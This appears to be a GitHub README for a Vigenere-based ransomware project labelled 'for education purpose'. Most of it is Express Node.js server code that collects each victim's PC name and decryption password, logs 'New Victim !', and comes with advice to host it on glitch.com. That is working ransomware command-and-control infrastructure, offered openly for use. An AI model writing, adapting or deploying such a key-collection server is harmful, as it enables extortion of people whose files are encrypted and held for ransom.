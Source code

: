 # Vigenere-Ransomeware
a vigenere encrypt ransomeware by me :p, for education purpose.


# Used Algorithm
- Vigenere

# NOTE
i didnt try this, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also i created this only for *education purpose* .


# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static("public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use glitch.com to create projects to get the decrypt password


[Virustotal Scan Result](https://www.virustotal.com/gui/file/acf5c8c6b8658cf20e78a2a812db79dbd67ce65992dd0f5f6353962fec94a02c/detection)
